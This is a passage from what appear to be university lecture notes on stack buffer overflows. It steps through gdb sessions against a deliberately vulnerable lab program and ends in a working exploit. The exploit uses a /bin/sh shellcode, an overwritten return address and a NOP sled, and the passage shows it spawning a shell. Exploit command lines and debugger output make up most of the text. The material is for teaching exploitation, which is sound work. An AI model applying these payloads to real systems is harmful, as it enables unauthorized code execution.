   0x08048506 <+49>:    mov    DWORD PTR [esp+0x4],eax
   0x0804850a <+53>:    mov    DWORD PTR [esp],0x804860e
   0x08048511 <+60>:    call   0x8048350 <printf@plt>
   0x08048516 <+65>:    mov    eax,DWORD PTR [ebp-0xc]
   0x08048519 <+68>:    cmp    eax,DWORD PTR [ebp+0x8]
   0x0804851c <+71>:    jl     0x80484f6 <vuln+33>
   0x0804851e <+73>:    leave  
   0x0804851f <+74>:    ret    
End of assembler dump.
(gdb) p $ebp-0xc
$1 = (void *) 0xbffff5fc
```

So the address we need to overwrite is 0xbffff5fc instead of 0xdeadbeef.
Let's give that a try:

``` example
gdb) r 5 `python -c "sh=open('shell').read(); print sh+'A'*(0x30-len(sh))+'\xfc\xf5\xff\xbf'"`
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/git/si485-binary-exploits/lec/10/demo/vulnerable 5 `python -c "sh=open('shell').read(); print sh+'A'*(0x30-len(sh))+'\xfc\xf5\xff\xbf'"`

Breakpoint 1, 0x080484db in vuln ()
(gdb) c
Continuing.
[Inferior 1 (process 6932) exited normally]
```

And, we FAIL! What happened?

Let's do that again, and inspect the stack a bit more.

``` example
gdb) r 5 `python -c "sh=open('shell').read(); print sh+'A'*(0x30-len(sh))+'\x1c\xf6\xff\xbf'"`
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/git/si485-binary-exploits/lec/10/demo/vulnerable 5 `python -c "sh=open('shell').read(); print sh+'A'*(0x30-len(sh))+'\x1c\xf6\xff\xbf'"`

Breakpoint 1, 0x080484db in vuln ()
(gdb) ni 6
0x080484f4 in vuln ()
(gdb) ds
Dump of assembler code for function vuln:
   0x080484d5 <+0>: push   ebp
   0x080484d6 <+1>: mov    ebp,esp
   0x080484d8 <+3>: sub    esp,0x48
   0x080484db <+6>: mov    DWORD PTR [ebp-0xc],0x0
   0x080484e2 <+13>:    mov    eax,DWORD PTR [ebp+0xc]
   0x080484e5 <+16>:    mov    DWORD PTR [esp+0x4],eax
   0x080484e9 <+20>:    lea    eax,[ebp-0x2c]
   0x080484ec <+23>:    mov    DWORD PTR [esp],eax
   0x080484ef <+26>:    call   0x8048360 <strcpy@plt>
=> 0x080484f4 <+31>:    jmp    0x8048516 <vuln+65>
   0x080484f6 <+33>:    mov    eax,DWORD PTR [ebp-0xc]
   0x080484f9 <+36>:    lea    edx,[eax+0x1]
   0x080484fc <+39>:    mov    DWORD PTR [ebp-0xc],edx
   0x080484ff <+42>:    lea    edx,[ebp-0x2c]
   0x08048502 <+45>:    mov    DWORD PTR [esp+0x8],edx
   0x08048506 <+49>:    mov    DWORD PTR [esp+0x4],eax
   0x0804850a <+53>:    mov    DWORD PTR [esp],0x804860e
   0x08048511 <+60>:    call   0x8048350 <printf@plt>
   0x08048516 <+65>:    mov    eax,DWORD PTR [ebp-0xc]
   0x08048519 <+68>:    cmp    eax,DWORD PTR [ebp+0x8]
   0x0804851c <+71>:    jl     0x80484f6 <vuln+33>
   0x0804851e <+73>:    leave  
   0x0804851f <+74>:    ret    
End of assembler dump.
(gdb) 
```

At this point, we are right after the call, so we can take a look around
and we should see our shell code at the address `ebp-0x2c` and the
return address.

``` example
(gdb) x/x $ebp+0x4
0xbffff62c: 0xbffff5fc
(gdb) x/16i 0xbffff5fc
   0xbffff5fc:  jmp    0xbffff615
   0xbffff5fe:  pop    esi
   0xbffff5ff:  xor    eax,eax
   0xbffff601:  push   eax
   0xbffff602:  push   esi
   0xbffff603:  xor    edx,edx
   0xbffff605:  mov    ecx,esp
   0xbffff607:  mov    ebx,esi
   0xbffff609:  mov    al,0xb
   0xbffff60b:  int    0x80
   0xbffff60d:  xor    ebx,ebx
   0xbffff60f:  xor    eax,eax
   0xbffff611:  mov    al,0x1
   0xbffff613:  int    0x80
   0xbffff615:  call   0xbffff5fe
   0xbffff61a:  das    
(gdb) p $ebp-0x2c
$2 = (void *) 0xbffff5fc
```

Everything loks good so far. There is the shell code and in the right
place. Looking closer, we should expect at 0xbfffff61a to be the string
"/bin/sh" as this is jmp-callback. Let's take a look:

``` example
(gdb) x/s 0xbffff61a
0xbffff61a: "/bin/sh", 'A' <repeats 11 times>, "\374\365\377\277"
```

Woops! We see our "/bin/sh" string but we also see a sh\*ton of A's
following. That is to be expected given the way we set up our exploit:

``` example
                   .-------------------------.
                   |                         |
                   v                         |
   ./vulnerable 5 <shell-code><padding><address-of-buf>
```

The padding occurs after our shell code, and now we are toast. We can't
NULL terminate our shell-code because that means we won't pad out to the
return address. We need to do something different.

## Failed Attempt 2

This time, we'll change strategies a bit. Instead of jumping backwards,
let's jump forward. Here's what I propose:

``` example
                                             .-----------.
                                             |           |
                                             |           v
   ./vulnerable 5 <--------padding-----><address-of-buf><shell code>
```

Again, we need to use gdb to do some address calculations to find out
where the start of our shell code is. I'll format the exploit of the
right length and use 0xdeadbeef as the return address filler to
calculate the start of the shell code which should be at `ebp+0x8`, four
bytes further than the return address.

``` example
(gdb) p $ebp-0x2cQuit
(gdb) r 5 `python -c "sh=open('shell').read(); print 'A'*(0x30)+'\xfc\xf5\xff\xbf'+sh"`
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/git/si485-binary-exploits/lec/10/demo/vulnerable 5 `python -c "sh=open('shell').read(); print 'A'*(0x30)+'\xfc\xf5\xff\xbf'+sh"`

Breakpoint 1, 0x080484db in vuln ()
(gdb) x/x $ebp+8
0xbffff600: 0x05
```

Again, so the next address following the return address is 0xbfffff600.
Um ... that is not going to work because that address has a NULL byte in
it!

## SUCCESS!

Ok, so we need to jump 8 bytes further from the return address to skip
of that null byte address. This time our shell code exploit looks like
this:

``` example
                                             .------------------------.
                                             |                        |
                                             |                        v
   ./vulnerable 5 <--------padding-----><address-of-shelcode><padding><shell code>
```

Again, I'll do an address calculation to see where we are. We know what
that addres

``` example
(gdb) r 5 `python -c "sh=open('shell').read(); print 'A'*(0x30)+'\xef\xbe\xad\xde'+'A'*4+sh+'\x00'"`
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/git/si485-binary-exploits/lec/10/demo/vulnerable 5 `python -c "sh=open('shell').read(); print 'A'*(0x30)+'\xef\xbe\xad\xde'+'A'*4+sh+'\x00'"`

Breakpoint 1, 0x080484db in vuln ()
(gdb) ni 6
0x080484f4 in vuln ()
(gdb) x/x $ebp+0xc
0xbffff604: 0x315e17eb
(gdb) x/3wx $ebp
0xbffff5f8: 0x41414141  0xdeadbeef  0x41414141
```

We are looking to jump to the address 0xbffff604.

``` example
(gdb) r 5 `python -c "sh=open('shell').read(); print 'A'*(0x30)+'\x04\xf6\xff\xbf'+'A'*4+sh+'\x00'"`
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/git/si485-binary-exploits/lec/10/demo/vulnerable 5 `python -c "sh=open('shell').read(); print 'A'*(0x30)+'\x04\xf6\xff\xbf'+'A'*4+sh+'\x00'"`

Breakpoint 1, 0x080484db in vuln ()
(gdb) c
Continuing.
process 7017 is executing new program: /bin/dash
$ 
```

Boom!

## Outside of GDB and NOP sledding

The last step in this process is to get the exploit to work outside of
gdb. If we just drop our exploit into the command line, it doesn't work:

``` example
user@si485H-base:demo$ ./vulnerable 5 `python -c "sh=open('shell').read(); print 'A'*(0x30)+'\x04\xf6\xff\xbf'+'A'*4+sh+'\x00'"`
Segmentation fault (core dumped)
```

The reason problem is that gdb changes the stack layout, so all the
addresses within gdb are *lower* than they would be outside gdb as they
are more values on the stack. Visually we can see something like this
for how our exploit works:

``` example

    with gdb                 without gdb

  .------------.           .------------.
  |            |           |            |
  | gdb junk   |           :            :  
  |            |            
  :            :           :            :
                           |            |
  :            :           | shell code |
  |            |           | padding    |
  |            |           | ret addr   |--.
  |            |           :            :  |
  | shell code | <-.                     <-'
  | padding    |   |                            
  | ret addr   |---'
```

Without the gdb code, everything get's shifted up the stack, but the
value we are overwriting the return address to is now point to the same
old place where the shell code *used* to be. It is now somewhere else.

The primary way to correct this is to add nops to shift the stack space
around. A nop (read no-operation) is a special instruction that does
nothing. The byte code for nop is 0x90. With nops Well shift the address
space like so:

``` example

    without nops           with nops         

  .------------.         .------------.
  |            |         |            |
  :            :         :            :

  :            :         :            :
  |            |         |            |
  | shell code |         | shell code |
  | padding    |         | nop        |
  | ret addr   |--.      | nop        |
  :            :  |      | nop        |
                <-'      | nop        |<-.
                         | padding    |  |
                         | ret addr   |--'
```

The sequenences of nops form a "nop sled." If control jumps anywhere
within the nop sled, we'll do a bunch of no operations until we reach
the shell code. Our exploit will look like this:

``` example
                                             .-----------------------.
                                             |                       | 
                                             |                       v
   ./vulnerable 5 <--------padding-----><address-of-nopsled><padding><nop-sled><shell code>
```

How many nop's do we add? It doesn't matter, but we can try and see.

``` example
user@si485H-base:demo$ ./vulnerable 5 `python -c "sh=open('shell').read(); print 'A'*(0x30)+'\x04\xf6\xff\xbf'+'A'*4 + '\x90'*0x10 + sh+'\x00'"`
Segmentation fault (core dumped)
user@si485H-base:demo$ ./vulnerable 5 `python -c "sh=open('shell').read(); print 'A'*(0x30)+'\x04\xf6\xff\xbf'+'A'*4 + '\x90'*0x20 + sh+'\x00'"`
Illegal instruction (core dumped)
user@si485H-base:demo$ ./vulnerable 5 `python -c "sh=open('shell').read(); print 'A'*(0x30)+'\x04\xf6\xff\xbf'+'A'*4 + '\x90'*0x30 + sh+'\x00'"`
Illegal instruction (core dumped)
user@si485H-base:demo$ ./vulnerable 5 `python -c "sh=open('shell').read(); print 'A'*(0x30)+'\x04\xf6\xff\xbf'+'A'*4 + '\x90'*0x40 + sh+'\x00'"`
Illegal instruction (core dumped)
user@si485H-base:demo$ ./vulnerable 5 `python -c "sh=open('shell').read(); print 'A'*(0x30)+'\x04\xf6\xff\xbf'+'A'*4 + '\x90'*0x50 + sh+'\x00'"`
$ 
```

After 0x50 nop's our return address hits the sled, and BOOM, we got a
shell.

